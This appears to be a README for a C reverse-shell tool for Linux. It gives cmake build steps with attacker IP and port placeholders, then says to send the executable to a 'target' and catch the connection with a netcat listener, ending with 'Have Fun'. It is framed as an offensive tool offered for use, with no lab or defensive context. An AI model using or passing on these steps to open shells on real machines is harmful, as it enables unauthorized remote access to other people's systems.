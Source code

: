 # linux-c-revshell
Linux Reverse Shell Written in C


Build Dependencies:
  - CMake
  - Compiler ( GCC )
  
# Configuration
This project uses cmake for configuring project and building it. For configuring the project use the following Command:
```
cmake -Bbuild -DIP="x.x.x.x" -DPORT=XXXX
```

Before executing command substitute your ip with x.x.x.x and your port with XXXX.

# Building
For building project using CMake execute the following command:
```
cmake --build build
```
Then the executable Reverse shell is in the `build` folder.

# Run
Now send your reverse-shell to your target, then put your server ( PC ) to listen for shell.<br>
For Putting your server ( PC ) to listen using netcat you should use following command:
```
nc -lvp PORT
```
And substitute the Port you have chosen while build with PORT.

Now you got the Shell, Have Fun :).

# Contributors

The only developer of this project is now iHapiW
